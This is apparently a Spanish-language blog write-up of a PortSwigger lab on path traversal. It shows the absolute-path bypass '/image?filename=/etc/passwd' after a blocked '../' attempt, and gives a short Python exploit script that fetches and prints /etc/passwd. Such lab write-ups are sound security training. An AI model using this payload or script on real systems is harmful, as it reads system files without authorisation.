 ```yaml
---
title: "02 File path traversal, traversal sequences blocked with absolute path bypass"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/01_File path traversal, simple case
excerpt: 'Este laboratorio contiene una vulnerabilidad de recorrido de archivos en la visualización de imágenes de productos. La aplicación bloquea las secuencias transversales pero trata el nombre de archivo suministrado como relativo a un directorio de trabajo predeterminado.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, traversal sequences blocked with absolute path bypass'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-02/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-02/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

El laboratorio nos indica que la vulnerabilidad se encuentra en la visualización de imágenes de productos, vamos a probar alli.
En el endpoint `/image?filename=75.jpg `, tambien indica que las rutas se manejan desde la ruta `relativa`

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf1.png)

Probamos regresandonos una carpetas e ingresar desde alli `../../../etc/passwd` y vemos que nos arroja error.

![Conf2]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf2.png)

Ahora probamos quitando el `../` y vemos que si nos deja ingresar. Esto sucede porque esta usando la ruta relativa `/etc/passwd`.

![Conf3]({{site.url}}/images/Directory Traversal/directory-traversal-02/conf3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Directory Traversal/directory-traversal-02/aprobado.png)

# Codigo Python

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=/etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.come" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```